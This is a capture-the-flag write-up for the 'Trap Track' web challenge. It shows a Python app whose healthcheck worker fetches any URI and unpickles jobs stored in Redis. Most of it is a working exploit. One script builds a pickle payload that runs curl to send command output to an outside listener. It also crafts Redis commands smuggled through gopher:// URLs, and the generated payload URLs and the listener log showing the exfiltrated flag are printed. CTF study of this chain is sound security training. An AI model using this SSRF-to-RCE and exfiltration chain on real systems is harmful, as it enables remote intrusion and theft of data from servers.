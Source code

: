 # [Web - hard] Trap Track

This webapp is written in Python, and has a Redis cache to store information. It accepts URIs as input and will perform a Python `request()` via regular Jobs on the given URI to check if the endpoint responds, like a healthcheck.

The vulnerabilities are:

- the URI given to `request()` is not validated. It can be any URI scheme, even using `gopher://127.0.0.1:6379` to interact with Redis
```python
def run_worker():
    job = get_work_item()
    if not job:
        return
    incr_field(job, 'inprogress')
    trapURL = job['trap_url']
    response = request(trapURL)
```
- the Jobs are stored in Redis serialized, then deserialized with `pickle.loads`. Creating a specially crafter `pickle` job will lead to an RCE
```python
def get_work_item():
    job_id = store.rpop(env('REDIS_QUEUE'))
    if not job_id:
        return False
    data = store.hget(env('REDIS_JOBS'), job_id)
    job = pickle.loads(base64.b64decode(data))
```

In order to get the flag, we need to:

- login as admin/admin (that's given)
- generate a `pickle` serialized payload, leading the an RCE, in order to exfiltrate the flag to an HTTP listener
- generate the Redis commands equivalent to storing a new Job in Redis so that the specially crafted serialized payload is executed as any Job, using the `gopher://127.0.0.1:6379` URIs. Especially the ID should not mangle the original ID and be in sequence with the rest

The final script doesn't automate the whole process, but it gives the 2 Redis commands to input, given the last Job ID seen. Inputing those 2 commands, will trigger the Jobs to exfiltrate the flag to a remote HTTP server.

```python
import requests
import urllib
import pickle, os, base64
import sys

payload = 'curl http://1.2.3.4:4444/$(/readflag)'

class P(object):
    def __reduce__(self):
        return (os.system,(payload,))

def generate_resp(command):
    res = ""
    if isinstance(command, list):
        pass
    else:
        command = command.split(" ")
    res += "*{}\n".format(len(command))
    for cmd in command:
        res += "${}\n".format(len(cmd))
        res += "{}\n".format(cmd)
    return res

def generate_gopher(payload):
    final_payload = "gopher://127.0.0.1:6379/_{}".format(urllib.parse.quote(payload))
    return final_payload

def main(last_job_id_seen):
    job_id = last_job_id_seen + 3 # current job + 1 for HSET + 1 for RPUSH + 1 for correct place
    exploit = base64.b64encode(pickle.dumps(P())).decode('utf8')
    redis_cmd_1 = 'HSET jobs {} {}'.format(job_id, exploit)
    redis_cmd_2 = 'RPUSH jobqueue {}'.format(job_id)

    res = ''
    res += generate_resp(redis_cmd_1)
    res += generate_resp('quit')
    res = res.replace("\n","\r\n")
    gopher_cmd = generate_gopher(res)
    print(gopher_cmd)

    res = ''
    res += generate_resp(redis_cmd_2)
    res += generate_resp('quit')
    res = res.replace("\n","\r\n")
    gopher_cmd = generate_gopher(res)
    print(gopher_cmd)

if len(sys.argv) != 2:
    print("Usage: {} last_job_id".format(sys.argv[0]))
    exit(1)
main(int(sys.argv[1]))
```

The output (2 commands to input), given that the first JobID is 100, are:

```bash
$ python lol.py 100
gopher://127.0.0.1:6379/_%2A4%0D%0A%244%0D%0AHSET%0D%0A%244%0D%0Ajobs%0D%0A%243%0D%0A103%0D%0A%24100%0D%0AgASVQAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCVjdXJsIGh0dHA6Ly8xLjIuMy40OjQ0NDQvJCgvcmVhZGZsYWcplIWUUpQu%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
gopher://127.0.0.1:6379/_%2A3%0D%0A%245%0D%0ARPUSH%0D%0A%248%0D%0Ajobqueue%0D%0A%243%0D%0A103%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
```

After copy pasting them in the console, from the HTTP listener:

```bash
pi@raspberrypi:/tmp/lol $ python -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
165.22.116.7 - - [25/Mar/2023 08:31:10] code 404, message File not found
165.22.116.7 - - [25/Mar/2023 08:31:10] "GET /HTBtr4p_qu3u3d_t0_rc3! HTTP/1.1" 404 -
```
